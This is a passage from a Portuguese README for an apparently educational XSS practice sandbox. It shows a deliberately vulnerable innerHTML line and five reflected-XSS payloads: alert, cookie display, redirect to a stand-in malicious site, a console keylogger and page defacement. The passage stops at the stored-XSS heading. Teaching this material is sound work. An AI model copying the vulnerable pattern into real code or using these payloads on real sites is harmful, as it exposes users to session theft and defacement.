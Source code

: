 # XSS Sandbox

Um ambiente educacional seguro para praticar e estudar vulnerabilidades de Cross-Site Scripting (XSS). Este projeto demonstra três tipos principais de XSS através de cenários práticos e interativos.

## Cenários Implementados

### 1. XSS Refletido (Reflected XSS)

**Localização**: Formulário de busca na página principal

**Como funciona**: O valor digitado no campo de busca é refletido diretamente na página sem sanitização adequada. A entrada do usuário é inserida no HTML através de `innerHTML`, permitindo execução de código JavaScript.

**Vulnerabilidade no código**:
```javascript
searchResult.innerHTML = `Exibindo resultados para: ${query}`;
```

**5 Exemplos de Payloads**:

1. **Alert Básico**:
   ```html
   <script>alert('XSS Refletido funcionou!')</script>
   ```
   Exibe um alerta simples para confirmar a vulnerabilidade.

2. **Roubo de Cookie**:
   ```html
   <script>alert('Cookie: ' + document.cookie)</script>
   ```
   Mostra os cookies da sessão atual em um alerta.

3. **Redirecionamento Malicioso**:
   ```html
   <script>window.location.href='https://malicious-site.com'</script>
   ```
   Redireciona o usuário para um site malicioso.

4. **Keylogger Simples**:
   ```html
   <script>document.addEventListener('keypress', function(e) { console.log('Tecla pressionada: ' + e.key); })</script>
   ```
   Registra todas as teclas pressionadas no console do navegador.

5. **Modificação de Conteúdo**:
   ```html
   <script>document.body.innerHTML = '<h1 style="color: red;">Site Comprometido!</h1>'</script>
   ```
   Substitui todo o conteúdo da página por uma mensagem de comprometimento.

### 2. XSS Armazenado (Stored XSS)

**Localização**: Sistema de comentários
